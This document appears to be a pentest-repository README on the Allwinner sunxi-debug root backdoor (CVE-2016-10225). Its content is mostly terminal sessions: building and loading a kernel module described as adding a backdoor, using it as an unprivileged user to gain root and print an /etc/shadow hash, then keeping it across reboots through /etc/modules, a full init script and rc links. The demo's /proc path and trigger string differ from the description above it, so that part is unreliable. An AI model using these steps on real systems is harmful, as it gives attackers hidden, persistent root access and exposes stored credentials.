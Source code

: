
## Vulnerability Description

> The sunxi-debug driver in Allwinner 3.4 legacy kernel for H3, A83T and H8 devices allows local users to gain root privileges by sending "rootmydevice" to /proc/sunxi_debug/sunxi_debug.  


## Gain Privilege Escalation

```
root@labs:/tmp/sunxi-debug-backdoor# ll
total 8
-rw-r--r-- 1 root root  580 Apr 28 01:56 Makefile
-rw-r--r-- 1 root root 3520 Apr 28 01:57 sunxi-debug-backdoor.c

root@labs:/tmp/sunxi-debug-backdoor# make 
echo make -C /lib/modules/4.15.0-kali2-amd64/build M=/tmp/sunxi-debug-backdoor LDDINC=/tmp/sunxi-debug-backdoor/../include modules
make -C /lib/modules/4.15.0-kali2-amd64/build M=/tmp/sunxi-debug-backdoor LDDINC=/tmp/sunxi-debug-backdoor/../include modules
make -C /lib/modules/4.15.0-kali2-amd64/build M=/tmp/sunxi-debug-backdoor LDDINC=/tmp/sunxi-debug-backdoor/../include modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-kali2-amd64'
  CC [M]  /tmp/sunxi-debug-backdoor/sunxi-debug-backdoor.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /tmp/sunxi-debug-backdoor/sunxi-debug-backdoor.mod.o
  LD [M]  /tmp/sunxi-debug-backdoor/sunxi-debug-backdoor.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-kali2-amd64'
```

```
root@labs:/tmp/sunxi-debug-backdoor# modinfo sunxi-debug-backdoor.ko
filename:       /tmp/sunxi-debug-backdoor/sunxi-debug-backdoor.ko
description:    Adds a backdoor to the linux kernel
author:         sunxi-debug
license:        GPL
depends:        
retpoline:      Y
name:           sunxi_debug_backdoor
vermagic:       4.15.0-kali2-amd64 SMP mod_unload modversions 
```

```
root@labs:/tmp/sunxi-debug-backdoor# insmod sunxi-debug-backdoor.ko
root@labs:/tmp/sunxi-debug-backdoor# su postgres
postgres@labs:/tmp/sunxi-debug-backdoor$ echo password > /proc/mod/bdm 
postgres@labs:/tmp/sunxi-debug-backdoor$ head -1 /etc/shadow
root:$6$E0QR7VVm$Wys9sf3ClDAMJA7an.c5uG.3koaBhibZNoBJPnTVH5FI59/jem9BP4wFybER2hO4PqxdsXmhYWf5blMAGbiSl/:17635:0:99999:7:::
postgres@labs:/tmp/sunxi-debug-backdoor$ exit
exit
root@labs:/tmp/sunxi-debug-backdoor# rmmod sunxi_debug_backdoor 
```

```
root@labs:~/exploits/kernel# cp sunxi_debug_backdoor.ko /lib/modules/`uname -r`/misc/bdm.ko
root@labs:~/exploits/kernel# depmod
root@labs:~/exploits/kernel# modprobe bdm
root@labs:~/exploits/kernel# modprobe -r bdm
```

```
root@labs:~# cat /etc/modules
# /etc/modules: kernel modules to load at boot time.
#
# This file contains the names of kernel modules that should be loaded
# at boot time, one per line. Lines beginning with "#" are ignored.

bdm
```


```
root@labs:~/exploits/kernel# cat /etc/init.d/bdm
#! /bin/sh
# Linux kernel module init script

# chkconfig: 35 30 70
# description: BDM Linux kernel module
#

### BEGIN INIT INFO
# Provides:       bdm
# Required-Start:
# Required-Stop:
# Default-Start:  2 3 4 5
# Default-Stop:   0 1 6
# Short-Description: BDM Linux kernel module
### END INIT INFO

. /lib/lsb/init-functions

running()
{
    lsmod | grep -q "$1[^_-]"
}

start()
{
    echo "Loading BDM kernel modules..."
    
    if ! running bdm; then
        if ! modprobe bdm > /dev/null 2>&1; then
            if ! find /lib/modules/`uname -r` -name "bdm" 2>/dev/null|grep -q bdm; then
                echo "No suitable module for running kernel found"
            else
                echo "modprobe vboxdrv failed. Please use 'dmesg' to find out why"
            fi
            return 1
        else
            echo "bdm"
        fi
    fi
}

stop()
{
    echo "Unloading BDM kernel modules..."
    
    if running bdm; then
        if ! rmmod bdm 2>/dev/null; then
            echo "Cannot unload module bdm"
            return 1
        else
            echo "bdm"
        fi
    fi
    
}

case "$1" in
start)
    start
    ;;
stop)
    stop
    ;;
restart|force-reload)
    stop && start
    ;;
status)
    ;;
*)
    echo "Usage: $0 {start|stop|restart|force-reload|status}"
    exit 1
esac

root@labs:~/exploits/kernel# ln -s /etc/init.d/bdm /etc/rc0.d/K01bdm 
root@labs:~# update-rc.d bdm defaults
```

## References

- http://seclists.org/oss-sec/2016/q4/38
- https://www.cvedetails.com/cve/CVE-2016-10225/
- https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41
- https://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/
- https://github.com/rapid7/metasploit-framework/issues/6869
- https://github.com/nixawk/pentest-wiki/issues/28
